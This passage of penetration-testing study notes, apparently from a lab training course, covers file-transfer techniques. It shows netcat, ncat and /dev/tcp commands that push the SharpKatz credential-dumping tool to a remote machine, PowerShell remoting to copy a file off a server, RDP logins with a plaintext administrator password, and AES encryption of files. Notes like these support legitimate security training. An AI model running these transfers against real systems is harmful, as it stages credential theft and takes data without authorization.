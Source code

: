 ```bash
sudo nc -lp 443 -q 0 < SharpKatz.exe		# nc
sudo ncat -lp 443 --send-only < SharpKatz.exe	# ncat
```

On the remote machine, once I start Netcat, I receive the data from remote.

```bash
nc 192.168.49.128 443 > SharpKatz.exe			# nc
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe	# ncat
```

I can use `/dev/TCP/` if I don't have Netcat tool on the remote machine.

```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## PowerShell Remoting

It create by default `TCP/5985` for HTTP and `TCP/5986` for HTTPS. I can check the connection to a remote computer.

```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

then start a new session to remote.

```powershell
$session = New-PSSesion -ComputerName DATABASE01
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $session
```

## RDP

Remote Desktop Protocol. On Linux, I can use `rdesktop` or `xfreerdp`.

```bash
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

On Windows, I can use `mstsc.exe`.

## Protected file transfers

With PowerShell, I can copy-paste this script [https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions%5CInvoke-AESEncryption.ps1](https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions/Invoke-AESEncryption.ps1) then add it with the following command.

```powershell
import-module '.\Invoke-AESEncryption.ps1'
Invoke-AESEncryption -mode encrypt -key '1234' -text 'text to encrypt'
Invoke-AESEncryption -mode decrypt -key '1234' -test 'text to decrypt'
```
